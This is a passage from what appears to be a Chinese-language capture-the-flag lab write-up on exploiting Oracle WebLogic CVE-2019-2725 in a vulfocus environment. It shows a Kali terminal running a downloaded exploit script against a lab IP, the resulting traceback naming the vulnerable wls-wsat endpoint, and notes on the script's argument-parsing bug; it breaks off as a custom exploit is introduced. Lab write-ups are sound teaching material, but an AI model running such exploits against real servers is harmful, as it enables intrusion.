 ![1748219050543](image/weblogic-cve_2019_2725/1748219050543.png)

```
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 CVE-2019-2725.py -t http://10.37.133.3:7001 -v

Traceback (most recent call last):
  File "/home/kali/ctf-games/fofapro/vulfocus/CVE-2019-2725.py", line 173, in <module>
    check_url(url)
  File "/home/kali/ctf-games/fofapro/vulfocus/CVE-2019-2725.py", line 135, in check_url
    rsp = requests.post(vul_url, data=echo_cmd_payload_10271, verify=False, headers=headers, proxies=proxies)
requests.exceptions.MissingSchema: Invalid URL '-t/wls-wsat/CoordinatorPortType11': No scheme supplied. Perhaps you meant https://-t/wls-wsat/CoordinatorPortType11?
```

**问题分析**:

- **脚本缺陷**: 下载的CVE-2019-2725.py脚本存在参数解析错误
- **URL构造问题**: 脚本错误地将命令行参数 `-t`包含在URL中，导致无效的URL格式
- **解决方案**: 需要使用手工构造的SOAP攻击或寻找其他可靠的利用工具

**替代方案 - 使用自定义利用脚本**:
